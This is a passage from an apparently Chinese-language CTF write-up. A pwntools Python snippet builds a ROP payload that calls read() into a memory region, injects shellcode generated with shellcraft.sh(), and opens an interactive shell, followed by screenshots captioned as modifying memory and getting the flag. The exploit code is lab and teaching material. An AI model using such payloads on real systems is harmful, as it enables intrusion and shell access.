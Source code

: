 ```python
payload_01 += p32(pop3_ret)   #执行完read后将返回到pop3_ret指令,又继续使esp+12到mem_addr
payload_01 += p32(0)          #read函数参数1 ,从输入端读取
payload_01 += p32(mem_addr)   #读取到的内容复制到指向的内存里
payload_01 += p32(0x100)      #读取大小
payload_01 += p32(mem_addr)   #这里就是shellcode了
sh.sendline(payload_01)
#gdb.attach(sh) #本地调试用
payload_sh = asm(shellcraft.sh(),arch = 'i386', os = 'linux') #生成x86架构下的shellcode
sh.sendline(payload_sh)#这就是read读入的内容，即shellcode
sh.interactive()
```

成功修改内存：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/m5.png?x-oss-process=style/watermark" style="zoom:80%;" />

获取flag:

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/m4.png?x-oss-process=style/watermark" style="zoom:80%;" />
